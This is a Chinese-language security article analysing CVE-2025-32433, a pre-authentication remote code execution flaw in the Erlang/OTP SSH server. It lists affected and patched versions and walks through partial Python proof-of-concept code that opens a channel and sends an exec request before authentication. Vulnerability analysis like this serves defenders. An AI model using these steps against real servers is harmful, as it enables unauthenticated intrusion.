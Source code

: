 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzAxMjYyMzkwOA==&mid=2247531429&idx=1&sn=bd56f81866330df6dcad06a198ba156a

#  CVE-2025-32433：Erlang/OTP SSH 服务器中的预授权 RCE  
 Ots安全   2025-06-28 11:59  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
网址  
- https://nvd.nist.gov/vuln/detail/CVE-2025-32433  
  
- https://www.keysight.com/blogs/en/tech/nwvs/2025/05/23/cve-2025-32433-erlang-otp-ssh-server-rce  
  
目标  
- OTP 25 ≤ 25.3.2.19  
  
- OTP 26 ≤ 26.2.5.10  
  
- OTP 27 ≤ 27.3.2  
  
解释  
  
Erlang OTP 是开放电信平台 (Open Telecom Platform) 的缩写。它是一个提供各种功能的平台，可高效开发基于 Erlang 的实时服务器或消息传递系统。  
  
该漏洞是 Erlang/OTP 的 SSH 服务器模块中的一个预授权 RCE（远程代码执行）漏洞，通过在身份验证过程之前错误地处理 SSH 消息，允许在无需身份验证的情况下远程执行任意代码。  
  
此漏洞允许攻击者在 SSH 连接期间发送未经身份验证的消息SSH_MSG-CHANNEL_OPEN（消息编号 90）和（消息编号 98），而这些消息应该在身份验证后发送。这些消息用于在用户完成身份验证后打开会话通道，并在通过打开的通道请求命令等时使用。SSH_MSG_CHANNEL_REQUESTSSH_MSG-CHANNEL_OPENSSH_MSG_CHANNEL_REQUEST  
  
根据SSH 协议规范 ( RFC 4254 )，这些消息应仅在身份验证后才被接受，并且任何提前发送的消息都应被视为会话终止。然而，在存在漏洞的 Erlang/OTP 版本中，SSH 守护进程并未强制执行此规则，这导致攻击者无需身份验证即可打开会话通道并发送 exec 请求。  
  
攻击流程  
  
以下是基于公开的PoC代码模拟的攻击流程。  
  
当客户端和服务器启动 SSH 会话时，它们会相互交换版本信息以验证协议兼容性。例如，客户端与服务器交换字符串 SSH-2.0-OpenSSH_8.9。  
  

```
s.sendall(b&#34;SSH-2.0-OpenSSH_8.9\r\n&#34;)
banner = s.recv(1024)
```

  
  
客户端（攻击者）通过发送 SSH_MSG_KEXINIT 数据包来启动密钥交换过程。此消息包含密钥交换方法、加密算法、压缩选项等列表。  
  

```
defbuild_kexinit():
    cookie = b&#34;\x00&#34; * 16

    defname_list(l):
        return string_payload(&#34;,&#34;.join(l))

    # Match server-supported algorithms from the log
    return (
        b&#34;\x14&#34;
        + cookie
        + name_list(
            [
                &#34;curve25519-sha256&#34;,
                &#34;ecdh-sha2-nistp256&#34;,
                &#34;diffie-hellman-group-exchange-sha256&#34;,
                &#34;diffie-hellman-group14-sha256&#34;,
            ]
        ) # kex algorithms
        + name_list([&#34;rsa-sha2-256&#34;, &#34;rsa-sha2-512&#34;]) # host key algorithms
        + name_list([&#34;aes128-ctr&#34;]) * 2# encryption client->server, server->client
        + name_list([&#34;hmac-sha1&#34;]) * 2# MAC algorithms
        + name_list([&#34;none&#34;]) * 2# compression
        + name_list([]) * 2# languages
        + b&#34;\x00&#34;
        + struct.pack(&#34;>I&#34;, 0) # first_kex_packet_follows, reserved
    )
    
 ...

kex_packet = build_kexinit()
s.sendall(pad_packet(kex_packet))
```

  
  
在初始密钥交换之后，攻击者通过 SSH_MSG_CHANNEL_OPEN 消息请求创建会话通道。通常，只有在用户身份验证完成后才可以发出此请求。  
  

```
defbuild_channel_open(channel_id=0):
    return (
        b&#34;\x5a&#34;  # SSH_MSG_CHANNEL_OPEN
        + string_payload(&#34;session&#34;)
        + struct.pack(&#34;>I&#34;, channel_id) # sender channel ID
        + struct.pack(&#34;>I&#34;, 0x68000) # initial window size
        + struct.pack(&#34;>I&#34;, 0x10000) # max packet size
    )

...

chan_open = build_channel_open()
s.sendall(pad_packet(chan_open))
```

  
  
然而，由于CVE-2025-32433漏洞，服务器无需身份验证即可接受此请求，因此攻击者即使没有身份验证也可以打开通道。  
  
攻击者发送 SSH_MSG_CHANNEL_REQUEST 消息，请求通过开放通道执行命令。此消息通常用于在经过身份验证的会话中执行命令。  
  

```
chan_req = build_channel_request(
    command='os:cmd(&#34;touch /tmp/test&#34;).'
)
s.sendall(pad_packet(chan_req))
```

  
  
该漏洞允许未经身份验证的消息被接受。因此，包含“exec”有效负载的请求可能会被接受，从而允许攻击者远程执行任意shell命令。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafvy4MsdawXz4pQq3r4pg4rdYeMaJkqH8ICxHtvTriaCFoJlaH68CoDs2psLgqDTNBI2wv0kIibrXpw/640?wx_fmt=png&from=appmsg "")  
  
此漏洞已在 OTP 版本 27.3.3、26.2.5.11、25.3.2.20 及更高版本中修补。  
  
参考  
  
https://www.sonicwall.com/blog/pre-auth-rce-alert-critical-ssh-flaw-in-erlang-otp-cve-2025-32433-  
  
https://github.com/ProDefense/CVE-2025-32433  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
